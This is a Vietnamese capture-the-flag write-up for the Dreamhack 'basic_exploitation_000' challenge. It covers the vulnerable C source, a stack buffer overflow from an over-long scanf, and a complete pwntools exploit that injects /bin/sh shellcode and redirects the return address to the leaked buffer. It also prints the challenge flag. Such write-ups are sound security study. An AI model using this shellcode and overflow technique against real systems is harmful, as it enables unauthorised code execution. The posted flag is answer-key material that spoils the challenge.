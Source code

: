 **1. Tìm lỗi**

Ta có file source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);

    return 0;
}
```

Chương trình định nghĩa một mảng buf với kích thước 0x80 (hoặc 128 byte) nhưng cho phép nhập 141 byte -> Có lỗi bof.

Sau đó, chương trình in địa chỉ của mảng buf bằng lệnh printf() nhưng trong đó có %p sẽ in ra địa chỉ của biến buf.

**2. Ý tưởng**

Có được địa chỉ của biến buf nên sẽ đưa shellcode vào buf. Tiếp tục chèn cho tràn đến ret rồi điều hướng quay lại địa chỉ biến buf.

**3. Khai thác**

Lấy được địa chỉ biến buf sau lần chạy

```
r.recvuntil(b'(')
leak_buf = r.recv(10).decode()
log.info("leak stack: " + leak_buf)
leak_buf = int(leak_buf, 16)
```

```
   0x080485f5 <+28>:    lea    eax,[ebp-0x80]
   0x080485f8 <+31>:    push   eax
   0x080485f9 <+32>:    push   0x80486a5
   0x080485fe <+37>:    call   0x8048460 <__isoc99_scanf@plt>
```

Ta thấy biến buf cách ebp 0x80 byte. Vậy từ biến buf đến ebp là 0x80 + 0x4

Tiếp theo sẽ ghi shellcode vào biến buf và ghi byte rác cho đủ 0x80 + 0x4 byte ở trên. Sau đó ghi địa chỉ biến buf hay là shellcode của mình có được ở trên.

```
payload = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"
payload = payload.ljust(0x80 + 0x4, b'a')
payload += p32(leak_buf)
```

Đặt breakpoint ở ret xem có trả về shellcode của mình không.

![shell.png](photo/shell.png)

Vậy chương trình đã return về shellcode của mình

Ta có script như sau:

```
from pwn import *

exe = ELF('basic_exploitation_000')
#r = process(exe.path)
r = remote('host2.dreamhack.games', 22570)

r.recvuntil(b'(')
leak_buf = r.recv(10).decode()
log.info("leak stack: " + leak_buf)
leak_buf = int(leak_buf, 16)

payload = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"
payload = payload.ljust(0x80 + 0x4, b'a')
payload += p32(leak_buf)
#input()
r.sendlineafter(b')\n', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

'Flag: DH{465dd453b2a25a26a847a93d3695676d}'
